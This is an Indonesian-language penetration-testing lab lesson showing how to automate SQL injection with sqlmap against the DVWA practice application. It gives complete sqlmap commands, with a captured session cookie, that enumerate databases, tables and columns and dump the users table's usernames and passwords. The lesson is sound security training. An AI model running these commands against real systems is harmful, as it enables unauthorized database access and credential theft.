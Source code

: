 # Lesson 7: Automate SQL Injection with SqlMap

1. Didalam website DVWA, pilih tab SQL Injection.

2. Nyalakan add-ons Temper Data di browser.

3. Masukkan 1 pada form User ID, kemudian submit. Sebuah pop-up akan muncul, hilangkan centang untuk continuous temper. Kemudian klik submit.
![Gambar](image/34-tempering.PNG)

4. Pilih data kedua, kemudian salin bagian referer dan cookienya.
![Gambar](image/35-referer.png)

5. Paste ke notepad, seharusnya semuanya akan terlihat seperti dibawah ini. Didalamnya akan ada PHPSESSID yang akan kita gunakan dalam perintah berikutnya.
![Gambar](image/36-phpsessid.PNG)

6. Pindah ke folder dimana sqlmap berada (/pentest/database/sqlmap). Jalankan sqlmap dnegan perintah berikut ini.
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -b --current-db --current-user
```
![Gambar](image/37-a-fail-one.PNG)

7. Mendapatkan daftar dari semua database yang ada:
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" --dbs
```
![Gambar](image/38-listalldatabase.PNG)

8. Mendapatkan semua tabel dan konten di database dvwa:
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -D dvwa --tables
```
![Gambar](image/39-dvwa-table.PNG)

9. Mendapatkan semua column yang ada di dalam tabel users di database dvwa:
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -D dvwa -T users --columns
```
![Gambar](image/40-dvwa-users.PNG)

10. Mendapatkan semua user dan passwordnya dari database dvwa:
```
./sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=7a1cd3cef9aa5096f198d9e0307c25f7; security=low" -D dvwa -T users -C user,password --dump
```
pilih y atau Y untuk semua pilihan dan kosongkan dictionary lokasi.
![Gambar](image/41-voila.PNG)

